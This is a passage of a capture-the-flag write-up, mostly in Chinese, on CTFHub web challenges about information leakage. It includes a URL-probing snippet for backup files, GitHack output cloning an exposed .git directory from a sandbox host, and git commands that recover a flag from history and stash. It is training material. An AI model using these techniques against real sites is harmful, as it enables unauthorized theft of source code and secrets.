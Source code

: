 ```python
        response = requests.get(url)

        if response.status_code == 200:
            print(f"Found: {url}")
```

## 4. git

> https://www.ctfhub.com/#/skilltree  /web/信息泄露/备份文件下载/Git泄露

https://github.com/BugScanTeam/GitHack

> ```python
> def method_a():
>     logger.info("Try to Clone straightly")
>     
> fatal: repository 'http://challenge-0f353c7e1e75f508.sandbox.ctfhub.com:10800/.git/' not found
> [-] Clone Error
>     
>     
> def method_b():
>     logger.info("Try to Clone with Directory Listing")
>     
> [*] http://challenge-0f353c7e1e75f508.sandbox.ctfhub.com:10800/.git/ is not support Directory Listing
> [-] [Skip][First Try] Target is not support Directory Listing
>     
>     
> def method_c():
>     logger.info("Try to clone with Cache")
>     
> [+] Valid Repository Success
> [+] Clone Success. Dist File : /Applications/GitHack/dist/challenge-0f353c7e1e75f508.sandbox.ctfhub.com_10800
> 
> ```

当前大量开发人员使用 git 进行版本控制，对站点自动部署。如果配置不当，可能会将 .git 文件夹直接部署到线上环境，这就引起了 git 泄露漏洞。

```
// 查看提交历史
git log

// 版本回滚
git reset --hard 026fd758a67dbeecd1337cf91584468b6925bc20


// 发现 stash
git stash list
e.g.stash@{0}: WIP on master: 00de28e add flag

// 取出 stash
git stash pop


// 查看暂存区的状态
git status
e.g.On branch master
Changes not staged for commit:
  (use "git add <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	modified:   243712490420488.txt
```
